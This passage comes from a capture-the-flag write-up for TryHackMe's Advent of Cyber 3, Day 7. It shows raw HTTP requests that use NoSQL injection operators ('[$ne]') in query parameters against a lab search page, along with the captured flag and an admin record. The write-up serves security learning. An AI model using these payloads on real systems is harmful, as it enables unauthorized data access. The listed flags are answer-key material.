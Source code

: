 ```
GET /search?username[$ne]=ggg&role=guest HTTP/1.1
Host: 10-10-207-247.p.thmlabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86*64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/\_;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Referer: http://10-10-207-247.p.thmlabs.com/search?username=guest&role=user
Cookie: connect.sid=s%3AWyP4I3JLi8gcJpSAVLrSBc-2SFjGDDE4.cMjVFgYRRsiGcUjsu6YZfcBKYV10r8Cm4oWwtHvaIxQ
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

```

![All Users](https://github.com/vrbait1107/CTF_WRITEUPS/blob/main/TryHackMe/images/Advent-of-cyber-3/Day-7/Picture-6.png "All Users")

- **_Ans:- THM{2ec099f2d602cc4968c5267970be1326}_**

4. **Use the gift search page to perform NoSQL injection and retrieve the mcskidy record. What is the details record?**

```
GET /search?username=mcskidy&role[$ne]=test HTTP/1.1
Host: 10-10-207-247.p.thmlabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86*64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/\_;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Referer: http://10-10-207-247.p.thmlabs.com/search?username=test&role=user
Cookie: connect.sid=s%3AWyP4I3JLi8gcJpSAVLrSBc-2SFjGDDE4.cMjVFgYRRsiGcUjsu6YZfcBKYV10r8Cm4oWwtHvaIxQ
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
```

![mcskidy](https://github.com/vrbait1107/CTF_WRITEUPS/blob/main/TryHackMe/images/Advent-of-cyber-3/Day-7/Picture-7.png "mcskidy")

- **_Ans:- ID:6184f516ef6da50433f100f4:mcskidy:admin_**
